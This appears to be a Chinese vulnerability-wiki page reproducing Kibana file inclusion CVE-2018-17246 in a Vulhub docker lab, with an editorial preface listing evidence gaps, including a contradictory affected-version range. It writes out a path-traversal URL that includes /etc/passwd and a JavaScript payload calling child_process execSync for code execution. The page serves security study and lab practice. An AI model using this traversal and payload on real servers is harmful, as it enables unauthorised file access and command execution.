



# Kibana 本地文件包含漏洞 CVE-2018-17246

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Console端点可达；RCE另需攻击者可放置JS文件；lab5.6.12
- 证据范围：读取/包含结果仅服务器日志可见；后续代码由本地docker写入作为前置模拟

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- P0描述受影响5.6.13到6.4.3，与实验5.6.12矛盾，疑将修复分支误作区间
- 500错误不是向远程攻击者泄露文件的证据；区分包含、读取回显和RCE
- 本文止于上传示例，未展示最终包含该JS的请求/结果
- 本地docker写文件不代表远程攻击者已具上传能力

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Kibana 为 Elassticsearch 设计的一款开源的视图工具。其5.6.13到6.4.3之间的版本存在一处文件包含漏洞，通过这个漏洞攻击者可以包含任意服务器上的文件。此时，如果攻击者可以上传一个文件到服务器任意位置，即可执行代码。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2018-17246
- https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/
- https://www.anquanke.com/post/id/168291

## 环境搭建

Vulhub启动 Kibana 5.6.12 和 Elasticsearch 5.6.16 环境：

```shell
docker-compose up -d
```

环境启动后，访问`http://your-ip:5601`即可看到Kibana的默认首页。



## 漏洞复现

直接访问如下URL，来包含文件`/etc/passwd`：

```
http://your-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd
```

虽然在返回的数据包里只能查看到一个500的错误信息，但是我们通过执行`docker-compose logs`即可发现，`/etc/passwd`已经成功被包含：



所以，我们需要从其他途径往服务器上上传代码，再进行包含从而执行任意命令。比如，我们可以将如下代码上传到服务器的`/tmp/vulhub.js`，文件内容为：

```
export default {asJson: function() {return require("child_process").execSync("id").toString()}}
```

首先进入docker：

```shell
docker-compose exec kibana bash 
```

在docker内写入文件：

```
echo 'export default {asJson: function() {return require("child_process").execSync("id").toString()}}' > /tmp/vulhub.js
```




---

> 来源：Threekiii/Awesome-POC
